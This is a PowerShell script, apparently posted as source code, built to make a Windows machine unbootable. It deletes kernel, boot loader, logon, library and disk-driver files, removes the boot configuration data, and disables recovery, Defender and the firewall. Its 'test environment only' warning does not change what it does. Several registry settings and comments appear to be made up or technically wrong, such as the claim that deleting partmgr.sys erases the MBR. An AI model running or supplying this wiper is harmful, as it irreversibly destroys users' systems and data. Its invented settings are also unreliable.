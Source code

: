 # Final Stage: Maximum Destruction Script - BEYOND EXTREME
# This script will obliterate your system beyond recovery. Use only in a test environment. 
# YOU HAVE BEEN WARNED!

# Ensure script is run as Administrator
if (!([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)) {
    Write-Host "You need to run this script as an administrator!" -ForegroundColor Red
    exit
}

Write-Host "Starting extreme destruction of the Windows system..." -ForegroundColor Red

# PART 1: Complete Shell and GUI Removal

Write-Host "Removing Windows GUI (Shell, Taskbar, Explorer) and graphical components..." -ForegroundColor Red
# Set shell to an invalid executable to prevent any GUI from loading
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "Shell" -Value "nonexistent.exe" -Force

# Delete essential graphical components
Remove-Item -Path "C:\Windows\explorer.exe" -Force
Remove-Item -Path "C:\Windows\System32\dwm.exe" -Force
Remove-Item -Path "C:\Windows\System32\userinit.exe" -Force
Remove-Item -Path "C:\Windows\System32\Taskmgr.exe" -Force  # Disable Task Manager completely

Write-Host "Removing System Tray and Taskbar functionality..." -ForegroundColor Red
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" -Name "NoTrayItemsDisplay" -Value 1 -Force
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" -Name "NoTaskGrouping" -Value 1 -Force

# PART 2: Core Networking and Kernel-Level Destruction

Write-Host "Destroying core networking and TCP/IP stack..." -ForegroundColor Red
New-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters" -Name "EnableTCP" -Value 0 -Force
New-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\NetBT\Parameters" -Name "EnableNetbiosOverTcpip" -Value 0 -Force

Write-Host "Deleting network drivers (tcpip.sys, ndis.sys)..." -ForegroundColor Red
Remove-Item -Path "C:\Windows\System32\drivers\tcpip.sys" -Force
Remove-Item -Path "C:\Windows\System32\drivers\ndis.sys" -Force
Remove-Item -Path "C:\Windows\System32\drivers\NetBT.sys" -Force  # Delete NetBIOS support

Write-Host "Disabling DHCP, DNS, and NetBIOS services completely..." -ForegroundColor Red
Set-Service -Name Dhcp -StartupType Disabled
Set-Service -Name Dnscache -StartupType Disabled
Set-Service -Name NetBT -StartupType Disabled
Stop-Service -Name Dhcp, Dnscache, NetBT -Force

# PART 3: Complete Kernel Destruction and Recovery Blocking

Write-Host "Disabling Kernel Patch Protection, CPU scheduling, and recovery options..." -ForegroundColor Red
New-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager" -Name "DisableKernelPatchProtection" -Value 1 -Force
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Scheduler" -Name "Start" -Value 4 -Force  # Disable CPU Scheduler

Write-Host "Deleting Kernel Components (ntoskrnl.exe, winload.exe)..." -ForegroundColor Red
Remove-Item -Path "C:\Windows\System32\ntoskrnl.exe" -Force  # Main Kernel
Remove-Item -Path "C:\Windows\System32\winload.exe" -Force  # Boot loader

Write-Host "Deleting BOOTMGR to prevent recovery..." -ForegroundColor Red
Remove-Item -Path "C:\bootmgr" -Force  # Boot Manager

Write-Host "Deleting Winlogon.exe (Logon process)..." -ForegroundColor Red
Remove-Item -Path "C:\Windows\System32\winlogon.exe" -Force  # Logon process deletion will block login

# PART 4: Destruction of File System and Boot Config

Write-Host "Disabling NTFS file system and boot configuration..." -ForegroundColor Red
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Ntfs" -Name "Start" -Value 4 -Force  # Disable NTFS

Write-Host "Deleting Volume Snapshot and paging files..." -ForegroundColor Red
Remove-Item -Path "C:\Windows\System32\drivers\volsnap.sys" -Force  # Volume shadow copy deletion
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management" -Name "PagingFiles" -Value "" -Force  # Disable paging file

# PART 5: Power Management and System Integrity Destruction

Write-Host "Disabling ACPI (Power management) and Secure Boot..." -ForegroundColor Red
Set-ItemProperty -Path "HKLM\SYSTEM\CurrentControlSet\Services\ACPI" -Name "Start" -Value 4 -Force  # Disable ACPI
New-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\SecureBoot\State" -Name "UEFISecureBootEnabled" -Value 0 -Force  # Disable Secure Boot

# PART 6: Disabling All System Recovery Options

Write-Host "Disabling Safe Mode and all recovery options..." -ForegroundColor Red
bcdedit /delete {default} /f  # Delete the default boot entry
bcdedit /set {bootmgr} recoveryenabled No  # Disable Windows Recovery Environment (WinRE)

Write-Host "Deleting boot configuration data (BCD) store..." -ForegroundColor Red
bcdedit /delete {bootmgr} /f  # Deletes the boot manager completely

# PART 7: Final Destruction - Removing Core Libraries and Security Features

Write-Host "Deleting Critical DLLs and Libraries (kernel32.dll, advapi32.dll)..." -ForegroundColor Red
Remove-Item -Path "C:\Windows\System32\kernel32.dll" -Force  # Main system library
Remove-Item -Path "C:\Windows\System32\advapi32.dll" -Force  # Advanced API library (security and registry management)

Write-Host "Removing Windows Defender and Firewall components..." -ForegroundColor Red
Set-Service -Name MpsSvc -StartupType Disabled  # Disable Windows Firewall
Stop-Service -Name MpsSvc -Force
Remove-Item -Path "C:\Windows\System32\mpssvc.dll" -Force  # Delete Firewall service

Write-Host "Removing Windows Defender and associated services..." -ForegroundColor Red
Set-Service -Name WinDefend -StartupType Disabled
Stop-Service -Name WinDefend -Force
Remove-Item -Path "C:\Windows\System32\drivers\wd.sys" -Force  # Remove Defender driver

# PART 8: Crippling Disk I/O and Boot Process

Write-Host "Disabling Disk I/O (IDE, SATA, and NVMe drivers)..." -ForegroundColor Red
Remove-Item -Path "C:\Windows\System32\drivers\disk.sys" -Force  # Main disk driver
Remove-Item -Path "C:\Windows\System32\drivers\storport.sys" -Force  # Storage controller
Remove-Item -Path "C:\Windows\System32\drivers\iaStorA.sys" -Force  # Intel SATA controller
Remove-Item -Path "C:\Windows\System32\drivers\nvme.sys" -Force  # NVMe driver

Write-Host "Deleting Master Boot Record (MBR) and partition table..." -ForegroundColor Red
Remove-Item -Path "C:\Windows\System32\drivers\partmgr.sys" -Force  # Delete partition manager

Write-Host "Extreme destruction complete. The system is now beyond recovery." -ForegroundColor Red
